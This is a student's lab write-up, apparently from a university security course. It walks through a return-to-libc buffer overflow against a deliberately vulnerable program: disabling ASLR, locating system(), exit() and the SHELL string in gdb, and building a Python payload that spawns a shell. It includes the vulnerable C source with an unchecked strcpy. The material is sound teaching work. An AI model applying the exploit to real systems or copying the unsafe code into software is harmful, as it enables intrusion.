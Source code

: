 # Lab5 - Buffer overflow attack(turn off ASLR, turn off NX)

## Overview
* So far, in lab3 & lab4, we did a buffer overflow attack using stack executable.
* But it's not the case in real situation. Linux systems usually make it impossible to run programs from stack memory.
* We injected malicious code in the stack from previous practice, but in this practice, we're going to call system function which is in the libc library.
* Most programs, including ans_check7, rely on the C standard library, libc. The return-to-libc method we discussed in the lecture explains how we can pass command line arguments to the system() function in the linked libc library to spawn a new shell, without requiring the ability to execute code on the stack.
* With this senario, we're going to make a payload like below

## Payload
PAYLOAD = PADDING + &system() + &exit_path + &cmd_string

## Before get started
+ Make sure that the ASLR is turned off.
```
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
2
[02/23/22]seed@VM:Byeongchan$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
0
[02/23/22]seed@VM:Byeongchan$

```

## Steps
1. Find out how many bytes we need for the padding.
2. Find out the address of the system function
3. Find out the address of the exit function
4. Find out the address of the '/bin/bash' string in the env variables
5. Make the payload and execute

### Step1 - Find out how many bytes we need for the padding.
+ I found the 54 bytes are needed for the padding using exit function
+ If you're not sure what it does, look back previous practice
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```


### Step2 - Find out the address of the system function
+ Address of system() : 0xb7da4da0
+ I tried to find the system in the program, but it ended with ‘00’ so I tried to find another one using gdb.
```
[02/23/22]seed@VM:Byeongchan$ objdump -D ans_check7 | grep system
08048420 <system@plt>:
 8048639:	e8 e2 fd ff ff       	call   8048420 <system@plt>
[02/23/22]seed@VM:Byeongchan$
```
+ This time, I used gdb method.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3129) exited normally]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
gdb-peda$
```

### Step3 - Find out the address of the exit function
+ Address of exit() : 0xb7d989d0
+ This time, I just using gdb method very first.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3147) exited normally]
Warning: not running or target is remote
gdb-peda$ p exit
$1 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

### Step4 - Find out the address of the '/bin/bash' string in the env variables
+ The address of cmd_string: 0xbffff0d3
+ Repeatable note is here
```
[02/23/22]seed@VM:Byeongchan$ gcc find_var.c -o find_var
[02/23/22]seed@VM:Byeongchan$ find_var SHELL
0xbffff0d3
[02/23/22]seed@VM:Byeongchan$ echo $SHELL
/bin/bash
[02/23/22]seed@VM:Byeongchan$
```

### Step5 - Make the payload and execute
+ The payload I made is shown below
+ &system:  0xb7da4da0 <__libc_system>
+ &exit_path: b7d989d0 <__GI_exit>
+ &cmd_string: 0xbffff0d3, cmd_string address
```
$(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
```
+ However, there is one problem executing the payload with the program
+ The payload I made above failed with ‘/bash’ not found error. And I knew the meaning of it, because find_var program returned the address of ‘SHELL’ text a little bit different. So, I needed to make adjustment a bit. 
+ First, I tried 3 less bytes and I also failed with ‘bin/bash’ not found. 
+ Second, I tried 4 less bytes and I got a new shell.
+ Below is my successful execution command.
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```
![lab5_1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/lab5_1.png)


## ans_check7.c
+ Compile this program with option like this : gcc -g -m32 -fno-stack-protector ans_check7.c -o ans_check7
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[38];

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }

  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
  system("/bin/date");
}
```

## find_var.c
+ This program shows the address of 'SHELL' env variable.
```
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
   if(!argv[1])
  	exit(1);
   printf("%p\n", getenv(argv[1]));
   return 0;
}
```
